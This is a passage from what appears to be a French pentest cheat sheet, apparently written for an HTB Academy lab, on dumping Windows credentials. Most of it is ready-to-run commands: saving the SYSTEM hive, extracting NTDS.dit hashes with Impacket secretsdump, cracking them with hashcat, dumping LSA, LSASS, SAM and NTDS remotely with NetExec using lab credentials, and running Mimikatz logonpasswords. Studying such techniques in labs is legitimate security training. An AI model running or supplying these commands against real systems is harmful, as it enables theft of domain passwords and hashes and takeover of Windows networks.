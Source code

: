 ```Powershell
reg save HKLM\SYSTEM system.reg
```

### Exfiltrer la copie du NTDS.dit ainsi que la ruche system

[[DATA TRANSFER#UPLOADS Exfiltration]]


### Dump les hash de la base NTDS avec Impacket secretsdump

```shell
impacket-secretsdump -ntds NTDS.dit LOCAL -system system.reg -outputfile domain_hashes -user-status -history -pwd-last-set
```

### Bruteforce avec [[HASHCAT]]

```shell
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```


## Exploitation en remote (admin local)

Dump LSA avec Netexec

```shell
nxc smb 10.129.42.198 -u bob -p HTB_@cademy_stdnt! --lsa
```

Dump LSASS avec Netexec

```shell
nxc smb 10.129.42.198 -u bob -p HTB_@cademy_stdnt! -M lsassy
```

Dump SAM avec Netexec

```shell
nxc smb 10.129.42.198 -u bob -p HTB_@cademy_stdnt! --sam
```

Dump NTDS.dit avec Netexec

```shell
nxc smb 10.129.42.198 -u bob -p HTB_@cademy_stdnt! --ntds
```



## Dump avec MIMIKATZ

Dump LSA

```
privilege::debug
sekurlsa::logonpasswords
```
